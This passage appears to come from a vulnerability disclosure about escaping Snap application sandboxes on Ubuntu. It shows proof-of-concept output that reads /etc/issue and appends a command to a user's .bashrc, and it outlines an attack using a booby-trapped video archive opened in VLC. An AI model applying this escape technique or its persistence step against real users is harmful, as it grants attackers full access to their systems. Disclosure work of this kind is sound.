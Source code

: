 ```


Escape Success!

We are now running code outside of snap container, we now have full privs of itszn

For example we now can read /etc/issue:
+ cat /etc/issue
Ubuntu 18.04.4 LTS \n \l


Or modify dotfiles
+ echo 'echo PWNED' >> /home/itszn/.bashrc
+ tail -n 1 /home/itszn/.bashrc
echo PWNED

Full escape and code execution~!
```

## Impact

In many situations, an attacker could gain full access to a user's system running as the current user. The following are example attack scenarios demonstrating how an attacker could abuse this bug against users.

# Example Attack Scenarios:
## Scenario 1: VLC
- Attacker creates a malicious archive containing a video file. Like before the malicious library is hidden in a `tls` directory to prevent suspicion (potentially even disguised as subtitle information)
- The target user wants to view the video file and downloads the archive. They extract the archive and find the video file:

```
itszn@ubuntu:~$ tar xfvz movie.tar.gz && cd movie
itszn@ubuntu:movie$ ls
total 8
-rw-rw-r-- 1 itszn itszn    0 Oct 25 11:04 amazing-movie.mp4
-rw-rw-r-- 1 itszn itszn 2193 Oct 25 11:45 README.txt
drwxrwxr-x 3 itszn itszn 4096 Oct 25 11:28 tls
drwxrwxr-x 3 itszn itszn 4096 Oct 25 11:29 tls_subtitles
```
- The user now runs VLC, which they installed using snapcraft (VLC is one of the top Snapcraft apps according to the Snap store).

```
itszn@ubuntu:movie$ vlc ./amazing-movie.mp4
```
- At this point the attacker has achived coded exction in the VLC container. The attacker can use the X11 plug to trivially escape this container.
- The attacker now has full access to the system as the user
